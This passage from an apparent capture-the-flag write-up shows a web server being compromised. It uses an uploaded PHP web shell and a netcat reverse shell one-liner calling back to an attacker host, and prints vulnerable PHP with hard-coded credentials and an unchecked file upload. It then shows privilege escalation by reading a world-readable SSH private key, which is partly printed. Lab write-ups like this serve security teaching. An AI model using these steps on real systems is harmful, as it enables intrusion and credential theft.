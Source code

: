 ```rev.php
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
we can access the reverse shell in this URL `http://10.9.9.12/auth-lazycorp-dev/uploads/rev_shell.php?cmd=` and enter the command you want to execute on the target machine. This file gives you access to a remote control access. and in this case I decided to run a reverse shell command to call back to my kali machine `busybox nc 10.6.6.5 9001 -e sh`
```bash
kali :: ~ » nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.6.6.5] from (UNKNOWN) [10.9.9.12] 33850
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
we get foothold access to the machine. Going through the web server is insecure in many ways such as hard coding credentials and no input validation
```php
<?php
session_start();
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    if ($_POST['username'] === 'dev' && $_POST['password'] === 'd3v3l0pm3nt!nt3rn') {
        $_SESSION['loggedin'] = true;
        header("Location: dashboard.php");
        exit;
    } else {
        $error = "Invalid credentials.";
    }
}
?>
```
and this was how the webserver handled the file uploaded
```php
<?php
  if (isset($_FILES['upload'])) {
      $target = "uploads/" . basename($_FILES['upload']['name']);
      if (move_uploaded_file($_FILES['upload']['tmp_name'], $target)) {
          echo "<div class='alert alert-success mt-3'>Upload successful!</div>";
      } else {
          echo "<div class='alert alert-danger mt-3'>Upload failed!</div>";
      }
  }
  ?>
```
root flag is located in `arvind` directory
```bash
FLAG{you_got_foothold_nice}
```

#### Privilege Escalation
Moving from `www-data` user to `arvind` upon visiting the `.ssh` file we learn that there are both ssh keys in the file and the permissions are set in a way that any logged in user can access them
```bash
ls -la
total 20
drwxr-xr-x    2 arvind   arvind        4096 Jul  9 07:37 .
drwxr-xr-x    5 arvind   arvind        4096 Jul 16 12:49 ..
-rw-------    1 arvind   arvind         747 Jul  9 07:47 authorized_keys
-rw-r--r--    1 arvind   arvind        3389 Jul  9 07:37 id_rsa
-rw-r--r--    1 arvind   arvind         747 Jul  9 07:37 id_rsa.pub
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEAtktrJjokkz1cYxNBPNReRHODI7V/8WAoufwlB709ParLEnBpT/tu
O8RVKB6UuoON1VeqZBbdD/FOaynjhauvLyvohjNy/tXYzlW+QLCcliaH0Pd3FQ11yQv7/b
```